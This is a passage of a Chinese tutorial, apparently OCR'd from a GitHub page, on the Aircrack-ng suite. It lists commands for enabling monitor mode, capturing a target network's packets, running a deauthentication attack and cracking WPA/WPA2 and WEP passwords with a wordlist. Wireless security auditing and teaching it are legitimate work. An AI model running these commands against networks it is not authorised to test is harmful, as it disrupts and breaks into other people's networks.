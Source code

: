    - 确保你的无线网卡支持监控模式，并能与 Aircrack-ng 兼容。

#### 3.2. **启动监控模式**

1. 启动监控模式

   ：

   - 使用 

     ```
     airmon-ng
     ```

      启动监控模式：

     ```
     sudo airmon-ng start wlan0
     ```

#### 3.3. **捕获数据包**

1. 使用 airodump-ng 捕获数据包

   ：

   - 捕获数据包并保存到文件：

     ```
     sudo airodump-ng -w capturefile --bssid [目标BSSID] -c [频道] wlan0mon
     ```

#### 3.4. **注入数据包**

1. 使用 aireplay-ng 执行重放攻击

   ：

   - 例如，执行 deauth 攻击：

     ```
     sudo aireplay-ng --deauth 10 -a [目标BSSID] wlan0mon
     ```

#### 3.5. **破解密码**

1. **使用 aircrack-ng 破解 WPA/WPA2 密码**：

   - 例如，使用密码字典破解：

     ```
     sudo aircrack-ng -w [密码字典文件] -b [目标BSSID] capturefile.cap
     ```

2. **使用 aircrack-ng 破解 WEP 密码**：

   - 例如：

     ```
     sudo aircrack-ng -b [目标BSSID] capturefile.cap
     ```
